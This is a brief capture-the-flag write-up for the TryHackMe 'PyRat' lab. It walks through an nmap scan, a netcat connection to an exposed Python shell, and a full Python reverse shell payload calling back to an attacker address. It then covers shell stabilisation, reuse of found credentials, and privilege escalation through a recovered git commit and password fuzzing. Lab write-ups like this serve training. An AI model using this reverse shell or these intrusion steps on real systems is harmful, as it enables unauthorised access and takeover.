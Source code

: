 # TryHackMe - PyRat 

> Room: [https://tryhackme.com/room/pyrat](https://tryhackme.com/room/pyrat)  
> Category: Easy | Focus: Python reverse engineering, file inclusion, privilege escalation
----
## Nmap Scan  
Discovered ports 22 (SSH) and 8000 (Python web server)  
`nmap -sC -sV -oA pyrat 10.10.11.169`

---

## Initial Access  
Connected to port 8000 using netcat  
`nc 10.10.11.169 8000`  
Got interactive Python shell

---

## Reverse Shell Payload  
Used this payload to get a reverse shell:  
```python
import socket,subprocess,os  
s=socket.socket();s.connect(("10.9.X.X",4444))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
subprocess.call(["/bin/bash"])
```
## For shell stabilization
I used: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
Then, `stty raw -echo; fg`
Looked around and saw a github credentials, logged in via ssh with those creds and boom!

## Priv Esc Meth2 
Found .git folder in /opt/dev
Recovered old commit with hidden /admin endpoint
Found password: _TH1NKINGPirate$_
Fuzzed endpoint, final password was abc123
Got root access again via admin interface

